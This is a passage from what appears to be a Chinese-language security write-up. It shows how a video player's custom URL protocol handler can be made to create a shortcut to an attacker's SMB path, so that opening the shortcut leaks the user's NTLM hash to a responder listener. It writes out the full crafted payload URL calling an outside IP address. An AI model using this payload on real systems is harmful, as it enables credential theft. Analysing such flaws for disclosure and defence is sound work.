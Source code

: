 [![](assets/1703487068-ebfd948e2a5b040f3f0c6edd44366374.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772674438.jpg)

当我们双击这个快捷方式时，就会调用浏览器打开`http://www.baidu.com`。

接着我们发现只要`url`参数值为`xxx://xxx.xxx/`的格式即可，那么我们尝试将`url`参数值修改为`file://172.16.176.176/netntlm`，也就变成这样：`xxplayer://action.cmd/createshortcut_url?url=file://172.16.176.176/netntlm&name=123`，在机器上`responder`监听一下，当打开快捷方式时收到了 NTLM Hash：

[![](assets/1703487068-fa1401e7d57a04bf990d5f25d6a56d35.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756130536051.jpg)
